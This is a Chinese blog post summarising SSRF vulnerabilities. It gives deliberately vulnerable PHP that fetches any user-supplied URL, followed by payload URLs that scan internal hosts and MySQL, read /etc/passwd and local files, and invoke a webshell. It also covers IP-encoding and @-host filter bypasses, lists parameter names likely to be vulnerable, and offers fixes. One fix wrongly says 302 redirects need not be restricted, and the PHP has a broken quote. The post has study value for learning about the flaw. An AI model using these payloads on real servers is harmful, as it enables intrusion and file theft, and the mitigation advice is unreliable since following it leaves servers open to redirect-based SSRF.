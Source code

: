 ```yaml
---
layout: post
title: "SSRF漏洞小结"
subtitle: "SSRF漏洞小结"
date: 2019-08-07
author: ppbibo
category: 习信息安全系列
finished: true
---
```

[TOC]

**什么是SSRF （Server-side Request Forgery）服务端请求伪造**



​        由于某些应用需要调用其他服务器上的资源，需要传入一个目标地址供服务器去请求，假设这个目标地址被攻击者控制，就可以访问促使服务器访问内网的其他服务。



**SSRF 漏洞源码**

```php
// ssrf.php
<?php
function curl($url){   //  程序获取url参数
    
    $ch=curl_init();   // 通过curl_init()初始化curl组件后
    curl_setopt($ch,CURLOPT_URL,$url); 
    // 将参数URL带入curl_setopt($ch,CURLOPT_URL,$url),
    curl_setopt($ch,CURLOPT_HEADER,0);
    curl_exec($ch); // 然后调用curl_exec请求该URL
    curl_close($ch);
}
$url=$_GET['url’];
// 由于服务器端会将banner信息返回给客户端，所以可根据banner判断主机是否存在某些服务。
curl($url);
?>

```



**Curl 支持的协议**

```bash
Mac-PpBiBo $ curl -V
curl 7.54.0 (x86_64-apple-darwin18.0) libcurl/7.54.0 LibreSSL/2.6.5 zlib/1.2.11 nghttp2/1.24.1
Protocols: dict file ftp ftps gopher http https imap imaps ldap ldaps pop3 pop3s rtsp smb smbs smtp smtps telnet tftp 

```



**探测内网**

```bash
http://192.168.1.102/ssrf.php?url=dict://127.0.0.1:3306
view-source:http://192.168.1.102/ssrf.php?url=http://192.168.1.101/l.php
http://192.168.1.102/ssrf.php?url=http://192.168.1.101/robots.txt
http://192.168.1.102/ssrf.php?url=http://192.168.1.101/favicon.ico
http://192.168.1.102/ssrf.php?url=http://192.168.1.101/index.html
http://192.168.1.102/ssrf.php?url=file://C:/phpStudy/phptutorial/WWW/1.asp
http://192.168.1.102/ssrf.php?url=file:///etc/passwd
view-source:http://192.168.1.102/ssrf.php?url=file://C:/phpStudy/phptutorial/WWW/cmd.php
http://192.168.1.102/ssrf.php?url=http://192.168.1.101/muma.php?pass=phpinfo();
http://192.168.1.102/ssrf.php?url=
```



**绕过技巧**



短网址绕过

IP限制绕过

​    十进制转换 八进制转换 十六进制转换  不同进制组合转换

[https://abc.com@127.0.0.1](https://abc.com@127.0.0.1/)与[http://127.0.0.1](http://127.0.0.1/)的请求是一样的



**从WEB功能上寻找SSRF漏洞**

1. 分享：通过URL地址分享网页内容
2. 转码服务：通过URL地址把原地址的内容调优为适合手机屏幕浏览的内容
3. 在线翻译：通过URL地址翻译对应的网页内容。提供此功能的有国内的百度翻译，有道翻译
4. 图片加载和下载：通过URL加载图片或下载
5. 图片、文章收藏功能
6. 未公开的api实现及其他通过参数调用外部资源的功能



**URL中可能存在SSRF漏洞的关键字**

```bash
share
url
img
wap
link
src
source
target
u
3g
display
sourceURL
image
imageURL
domain

```



**修复方案：**

​    • 限制协议为HTTP、HTTPS

​    • 不用限制302重定向

​    • 设置URL白名单或者限制内网IP



------

***「 转载请声明博客地址及APT086&QQ愛安全实验室 」***